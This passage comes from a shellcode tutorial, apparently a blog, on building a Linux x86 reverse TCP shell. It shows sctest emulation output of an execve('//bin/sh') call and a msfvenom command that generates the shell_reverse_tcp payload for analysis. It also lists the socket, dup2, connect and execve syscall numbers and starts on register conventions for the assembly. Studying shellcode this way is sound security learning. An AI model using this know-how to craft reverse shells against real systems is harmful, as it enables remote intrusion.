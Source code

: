          };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;

{% endhighlight %}

* We can also get the graph version of the disassemble process

{% highlight js %}
msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000 -G shell_reverse_tcp.dot
dot shell_reverse_tcp.dot -Tpng -o shell_reverse_tcp.png
{% endhighlight %}

![Reverse Shell](https://bohansec.com/assets/shell_reverse_tcp.png "Reverse Shell")

We can see in order for the Reverse TCP shell to work, there are several system calls used:

* socket 
* dup2
* connect
* execve

We can find each system calls number at /usr/include/i386-linux-gnu/asm/unistd_32.h: 

* socket - 359
* dup2 - 63
* connect - 362
* execve - 11

Note: The system call number for socket, dup2, and execve have already known from the creation of bind shell. 

![connect calls](https://bohansec.com/assets/connect.png "connect calls")

### Step2 - Assembly x86 crafting

* EAX - sys call
* EBX - first argument
* ECX - second argument
* EDX - third argument 
* ESI - fourth argument 
* EDI - fifth argument 
